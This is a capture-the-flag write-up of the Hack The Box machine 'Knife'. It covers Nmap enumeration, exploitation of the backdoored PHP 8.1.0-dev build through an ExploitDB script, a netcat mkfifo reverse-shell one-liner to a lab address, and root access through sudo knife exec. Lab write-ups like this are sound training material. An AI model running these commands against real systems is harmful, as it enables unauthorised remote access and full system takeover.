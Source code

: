 # HTB - Knife

#### Ip: 10.10.10.242
#### Name: Knife
#### Rating: Easy

----------------------------------------------------------------------

Knife.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:28 CDT
Nmap scan report for 10.10.10.242
Host is up (0.071s latency).
Not shown: 65384 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```  

Lets dive a bit deeper and scan ports 22 and 80 using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -sC -sV -T4 10.10.10.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:30 CDT
Nmap scan report for 10.10.10.242
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

Because we will most likely get a foothold using a web based exploit, it never hurts to kick of a Nikto scan, and see if there is some low hanging fruit.

Looking over the results we can see Nikto identified PHP/8.1.0-dev. From past experience I recall there may have been a vulnerability or a backdoor with this version.

Heading over to Google confirms there is indeed a backdoor in this version, and it is easily exploitable. 

While is is definitely possible to exploit this backdoor manually in BurpSuite, today I'm going to utilize this exploit found on ExploitDB: https://www.exploit-db.com/exploits/49933. 

In the comments the exploit mentions:

"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell on the host."

Taking a closer look at the exploit we can see that we will be appending a cmd to the user-agentt field:

user-agentt.png

Let's fire off the exploit and try and get onto the box.

### Exploitation

After copying the script to my exploits folder, I execute the exploit and get a pseudo-shell as user James. This is all well and good, but I'd prefer a proper reverse shell, that way I can keep some persistence on the box in case the pseudo-shell crashes.

To do this I simply set up a netcat listener and issue this one-liner:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
```

I can now stabilize the shell using Python:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And grab the first flag:

user_flag.png

### Privilege Escalation

Running `sud -l` I can see that user James can run `knife` with root permissions:

```text
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

According to the man-pages:

"knife  is a command-line tool that provides an interface between a local chef-repo and the Chef server."

Lets take a look at https://gtfobins.github.io/ to see if we can find a way to exploit this:

gtfobins.png

Cool, so looks like we simply have to run `sudo knife exec -E 'exec "/bin/sh"'` to escalate to root:

```text
james@knife:~$ whoami
whoami
james
james@knife:~$ 

    sudo knife exec -E 'exec "/bin/sh"'


james@knife:~$ 
james@knife:~$     sudo knife exec -E 'exec "/bin/sh"'
# # whoami
whoami
root
```

Nice! All that's left to do now is grab the root flag!

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------------------------------------